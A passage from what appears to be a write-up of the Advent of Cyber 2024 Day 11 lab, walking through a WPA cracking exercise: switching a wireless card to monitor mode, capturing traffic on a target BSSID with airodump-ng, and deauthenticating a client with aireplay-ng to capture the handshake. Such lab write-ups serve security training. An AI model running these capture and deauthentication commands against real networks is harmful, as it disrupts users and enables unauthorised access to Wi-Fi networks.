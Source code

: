    ```cmd
   sudo ip link set dev wlan2 down
   sudo iw dev wlan2 set type monitor
   sudo ip link set dev wlan2 up
   ```

   ```cmd
   sudo airodump-ng wlan2
   ```

   AIRODUMP

   After a while, a client should pop-up.

   ><details><summary>Click for answer</summary></details>

4. What is the PSK after performing the WPA cracking attack?

   To start monitoring more specifically we can use:

   ```cmd
   sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
   ```

   ![Client](Pictures/Advent_of_Cyber_2024_Day_11_Client.png)

   Next step is to disconnect the client whilst monitoring traffic.

   ```cmd
   sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
   ```

   ![Disconnect](Pictures/Advent_of_Cyber_2024_Day_11_Disconnect.png)

   ![Captured](Pictures/Advent_of_Cyber_2024_Day_11_Captured.png)

